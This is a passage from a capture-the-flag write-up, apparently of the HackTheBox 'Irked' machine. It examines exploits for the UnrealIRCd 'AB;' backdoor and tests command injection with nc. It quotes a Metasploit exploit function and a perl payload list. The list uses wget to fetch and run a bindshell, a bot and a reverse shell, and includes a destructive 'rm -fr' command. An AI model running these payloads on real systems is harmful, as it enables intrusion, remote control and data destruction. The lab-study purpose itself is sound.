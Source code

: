 I’ll ignore the two for Windows, and take a closer look at the two on Linux. The first is a Metasploit module. I’ll use `-x` in `searchsploit` to examine the code, `searchsploit -x exploits/linux/remote/16922.rb`. Towards the bottom, I see this function:

```

def exploit
    connect

    print_status("Connected to #{rhost}:#{rport}...")
    banner = sock.get_once(-1, 30)
    banner.to_s.split("\n").each do |line|
    print_line("    #{line}")
    end

    print_status("Sending backdoor command...")
    sock.put("AB;" + payload.encoded + "\n")

    handler
    disconnect
end

```

It looks like the exploit is to connect and then send “AB;” + the payload + “\n”.

I’ll examine the perl script the same way, `searchsploit -x exploits/linux/remote/13853.pl`. Right at the top I see this section:

```

## Payload options
my $payload1 = 'AB; cd /tmp; wget http://packetstormsecurity.org/groups/synnergy/bindshell-unix -O bindshell; chmod +x bindshell; ./bindshell &';
my $payload2 = 'AB; cd /tmp; wget http://efnetbs.webs.com/bot.txt -O bot; chmod +x bot; ./bot &';
my $payload3 = 'AB; cd /tmp; wget http://efnetbs.webs.com/r.txt -O rshell; chmod +x rshell; ./rshell &';
my $payload4 = 'AB; killall ircd';
my $payload5 = 'AB; cd ~; /bin/rm -fr ~/*;/bin/rm -fr *';

```

It appears to be doing the same thing.

## Shell as ircd

### Show RCE

Based on what I found during reconnaissance, I think I can just connect with `nc` and enter `AB; [some command]` and get it to run. I’ll test with a ping. I have `tcpdump` running listening for icmp. Now I’ll connect, and test out my theory:

```

root@kali# nc 10.10.10.117 6697
:irked.htb NOTICE AUTH :*** Looking up your hostname...
:irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
AB; ping -c 1 10.10.14.14
:irked.htb 451 AB; :You have not registered

```
